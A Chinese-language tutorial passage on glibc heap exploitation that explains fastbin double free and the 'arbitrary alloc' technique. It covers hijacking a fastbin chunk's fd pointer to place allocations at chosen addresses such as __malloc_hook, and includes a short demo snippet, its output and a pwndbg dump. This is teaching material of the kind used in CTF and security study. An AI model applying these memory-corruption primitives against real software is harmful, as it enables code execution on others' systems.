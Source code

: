 对应的`_int_malloc`检查如下
```c
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
    {
      errstr = "malloc(): memory corruption (fast)";
    errout:
      malloc_printerr (check_action, errstr, chunk2mem (victim));
      return NULL;
}
```

### 效果

通过 fastbin double free 我们可以使用多个指针控制同一个堆块，这可以用于篡改一些堆块中的关键数据域。
如果更进一步修改 fd 指针，则能够实现任意地址分配堆块的效果 (首先要通过`_int_malloc`验证)，这就相当于任意地址写任意值的效果。

## Arbitrary Alloc

**关键**：任意地址写的本质也是由于 fastbin 链表的特性：当前 chunk 的 fd 指针指向下一个 chunk。

该技术的核心点在于
- 目标地址 size 域合法，这个 size 域是构造的，还是本身存在的都无妨
- **劫持** fastbin 链表中 chunk 的 fd 指针，把 fd 指针指向我们想要分配任意地址，从而实现泄露或控制该地址的一些关键数据，如`__malloc_hook`。

只要满足目标地址存在合法的 size，我们就可以把 chunk 分配到任意的可写内存中，比如 bss、heap、data、stack 等等。

```
fprintf(stderr, "Now we change the fd at the top of free list!\n");
*a = *a - 0x20;
fprintf(stderr, "Now we can get the chunk at %p forever !\n", a);
fprintf(stderr, "1st malloc(8): %p\n", malloc(8));
fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
fprintf(stderr, "3rd malloc(8): %p\n", malloc(8));

Now we change the fd at the top of free list!
Now we can get the chunk at 0x405010 forever !
1st malloc(8): 0x405010
2nd malloc(8): 0x405010
3rd malloc(8): 0x405010

pwndbg> fastbins
fastbins
0x20: 0x405000 ◂— 0x405000
0x30: 0x0
pwndbg> x/20gx 0x405000
0x405000:       0x0000000000000000      0x0000000000000021    ----> chunk 0
0x405010:       0x0000000000405000      0x0000000000000000
0x405020:       0x0000000000000000      0x0000000000000021    ----> chunk 1
0x405030:       0x0000000000405000      0x0000000000000000
0x405040:       0x0000000000000000      0x0000000000000021    ----> chunk 2
0x405050:       0x0000000000000000      0x0000000000000000
0x405060:       0x0000000000000000      0x0000000000020fa1    ----> top chunk
```
